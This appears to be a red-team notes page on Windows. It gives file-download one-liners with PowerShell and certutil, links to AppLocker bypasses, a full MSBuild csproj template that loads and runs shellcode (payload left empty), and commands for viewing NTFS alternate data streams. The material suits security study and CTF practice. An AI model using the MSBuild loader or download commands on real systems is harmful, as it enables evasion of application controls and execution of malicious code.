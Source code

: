 # Windows

## Windows Registry

## File Transfers

### powershell

```text
(New-Object System.Net.WebClient).DownloadFile("https://example.com/archive.zip", "C:\Windows\Temp\archive.zip")  
```

### certutil

```bash
certutil.exe -urlcache -split -f https://myserver/filename outputfilename
```

## Applocker

> AppLocker advances the app control features and functionality of Software Restriction Policies. AppLocker contains new capabilities and extensions that allow you to create rules to allow or deny apps from running based on unique identities of files and to specify which users or groups can run those apps.

Source: [What Is AppLocker?](https://docs.microsoft.com/en-us/windows/security/threat-protection/windows-defender-application-control/applocker/what-is-applocker)

Despite the power this gives the Administrator in locking down what users can and can't execute, there are a disturbing number of ways to bypass this.  [Ultimate Applocker Bypass List](https://github.com/api0cradle/UltimateAppLockerByPassList) aims to record most of them.

[GreatSCT ](https://github.com/GreatSCT/GreatSCT)can also be used to generate payloads to bypass these.

### MSBuild

We can use MSBuild to execute arbitrary shellcode. The Cn33liz [MSBuildShell ](https://github.com/Cn33liz/MSBuildShell)is one such example. To compile a `csproj` file we use:

```text
C:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe test.csproj
```

An example csproj file to include shellcode within is:

```markup
<Project ToolsVersion="4.0" xmlns="http://schemas.microsoft.com/developer/msbuild/2003">
  <!-- This inline task executes shellcode. -->
  <!-- C:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe SimpleTasks.csproj -->
  <!-- Save This File And Execute The Above Command -->
  <!-- Author: Casey Smith, Twitter: @subTee --> 
  <!-- License: BSD 3-Clause -->
  <Target Name="Hello">
    <ClassExample />
  </Target>
  <UsingTask
    TaskName="ClassExample"
    TaskFactory="CodeTaskFactory"
    AssemblyFile="C:\Windows\Microsoft.Net\Framework\v4.0.30319\Microsoft.Build.Tasks.v4.0.dll" >
    <Task>
    
      <Code Type="Class" Language="cs">
      <![CDATA[
        using System;
        using System.Runtime.InteropServices;
        using Microsoft.Build.Framework;
        using Microsoft.Build.Utilities;
        public class ClassExample :  Task, ITask
        {         
          private static UInt32 MEM_COMMIT = 0x1000;          
          private static UInt32 PAGE_EXECUTE_READWRITE = 0x40;          
          [DllImport("kernel32")]
            private static extern UInt32 VirtualAlloc(UInt32 lpStartAddr,
            UInt32 size, UInt32 flAllocationType, UInt32 flProtect);          
          [DllImport("kernel32")]
            private static extern IntPtr CreateThread(            
            UInt32 lpThreadAttributes,
            UInt32 dwStackSize,
            UInt32 lpStartAddress,
            IntPtr param,
            UInt32 dwCreationFlags,
            ref UInt32 lpThreadId           
            );
          [DllImport("kernel32")]
            private static extern UInt32 WaitForSingleObject(           
            IntPtr hHandle,
            UInt32 dwMilliseconds
            );          
          public override bool Execute()
          {
	  	byte[] shellcode = new byte[351] {};
	  	UInt32 funcAddr = VirtualAlloc(0, (UInt32)shellcode.Length,
                MEM_COMMIT, PAGE_EXECUTE_READWRITE);
              Marshal.Copy(shellcode, 0, (IntPtr)(funcAddr), shellcode.Length);
              IntPtr hThread = IntPtr.Zero;
              UInt32 threadId = 0;
              IntPtr pinfo = IntPtr.Zero;
              hThread = CreateThread(0, 0, funcAddr, pinfo, 0, ref threadId);
              WaitForSingleObject(hThread, 0xFFFFFFFF);
              return true;
          } 
        }     
      ]]>
      </Code>
    </Task>
  </UsingTask>
</Project>
```

## Windows Defender

### Attack Surface Reduction

```text
https://docs.microsoft.com/en-us/windows/security/threat-protection/windows-defender-exploit-guard/enable-attack-surface-reduction
```

## Alternate Data Streams

This is more a  feature of the NTFS file system than it is a Windows feature, but it's important to understand from both a red-team and blue-team perspective.  

These are also disturbingly common in CTF's through the security via obscurity, so we need some method of viewing and potentially executing these alternate data streams.  To list all alternate data streams 

```text
dir /R
```

### Powershell

```bash
Get-Content -path C:\Users\Booj\ads -stream *
```

We can also view individual streams using

```text
Get-Content -path C:\Users\Booj\ads -stream <streamname>
```

### Windows Pre-Vista

In Windows prior to Vista, there's unfortunately no easy way of viewing these streams in default Windows without a GUI access.  In an engagement this may not be entirely practical.

The best version, working on XP, I found to be [LADS](https://www.aldeid.com/wiki/LADS), but a number of the links online appear to be dead.  The [Web Archive](http://web.archive.org/web/20150602054446/http://www.heysoft.de/download/lads.zip) version is still up so acquiring a copy is still possible.

## References

[Abatchy - Powershell Download File One-Liners](https://www.abatchy.com/2017/03/powershell-download-file-one-liners)  
[Sploitspren - Windows Privilege Escalation Guide](https://www.sploitspren.com/2018-01-26-Windows-Privilege-Escalation-Guide/)

